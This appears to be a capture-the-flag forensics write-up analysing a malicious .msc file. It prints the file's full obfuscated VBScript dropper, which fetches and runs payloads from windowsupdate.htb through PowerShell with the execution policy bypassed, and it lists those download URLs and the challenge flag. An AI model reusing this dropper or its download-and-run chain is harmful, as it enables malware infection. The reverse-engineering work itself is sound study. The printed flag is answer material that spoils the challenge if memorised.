 # Binary Badresources

## Challenge Overview

**Category:** Forensics  

**Description:**

A malicious syndicate from the far reaches of the Frontier has deployed a weapon disguised as a harmless gift. This weapon lies dormant until activated, compromising the defensive line and allowing invaders to take control of the stronghold. Defenders must reverse-engineer and decode the weapon's mechanism to disable it and protect the Frontier Cluster.

We are provided with a file named `wanted.msc`.

### Step 1: Initial Analysis

The challenge file, `wanted.msc`, was inspected to identify any suspicious behavior or obfuscation. The file appeared to be a combination of XML and embedded VBScript. The use of obfuscation indicated the presence of concealed functionality, suggesting that the file might be malicious. To proceed, we needed to decode the obfuscated VBScript.

### Step 2: Decoding Obfuscation

To decode the obfuscated content, we utilized the **Obfuscator.io Deobfuscator**, a tool designed to reverse obfuscation in VBScript. This tool was particularly helpful in revealing the hidden script. The decoded content contained a large loop that built a string using a combination of `Asc` (to get the ASCII value) and `chr` (to convert it back to characters). This string was then decrypted through a series of arithmetic operations.

Here is a snippet of the decoded VBScript:
<p align='center'>
  <img src='img/1.png' alt="HTB">
</p>
Below is a snippet of the decoded content:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```
### Step 3: Reverse Engineering the Payload

The embedded script revealed an obfuscated string, which was then decoded using **CyberChef**. The string contained URLs that pointed to potentially malicious resources:

<p align='center'>
  <img src='img/2.png' alt="HTB">
</p>

```c#
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
```
### Step 4: Decrypting the Files

The next step was to retrieve and decrypt the files referenced in the URLs. We suspected that these files were encrypted using XOR encryption with `csrss.dll` as the key. To decrypt the files, we implemented the following Python script that uses XOR decryption:

```python
def xor_decrypt(file_path, key_path, output_path):
    with open(file_path, "rb") as f, open(key_path, "rb") as k:
        file_content = bytearray(f.read())
        key = bytearray(k.read())
        key_len = len(key)
        
        for i in range(len(file_content)):
            file_content[i] ^= key[i % key_len]
        
    with open(output_path, "wb") as out:
        out.write(file_content)

# Decrypt the files
xor_decrypt("csrss.exe", "csrss.dll", "csrss_decrypted.exe")
xor_decrypt("csrss.exe.config", "csrss.dll", "csrss_config_decrypted")
xor_decrypt("wanted.pdf", "csrss.dll", "wanted_decrypted.pdf")
```
### Step 5: Analyzing Decrypted Files

After decryption, the `csrss.exe.config` file revealed an additional URL:

```plaintext
http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json
```

Upon downloading and analyzing the file, we found that it contained a **C# executable**. The next step was to decompile this executable to understand its contents.

### Step 6: Decompiling the C# Executable

To decompile the C# executable, we used **CodeMerx**. The decompiled content revealed the following key findings:

- The presence of **Base64-encoded data**.
- The use of **AES encryption** with a hard-coded key.

Here is an image showing the decompiled content:

![Decompiled C# Executable](img/4.png)

![AES Encryption Key](img/3.png)

### Step 7: Extracting the Flag

Upon further investigation, we downloaded the file located at:

```plaintext
http://windowsupdate.htb/ec285935b46229d40b95438707a7efb2282f2f02.xml
```

By running the `strings` command on the XML file, we successfully extracted the flag:

```
HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}
```

---

## Conclusion

In this challenge, we successfully reversed the obfuscated VBScript, decoded the hidden URLs, decrypted the files, and analyzed the C# executable to uncover the final flag. Each step required careful analysis, reverse engineering, and cryptographic techniques, leading to the successful completion of the challenge.
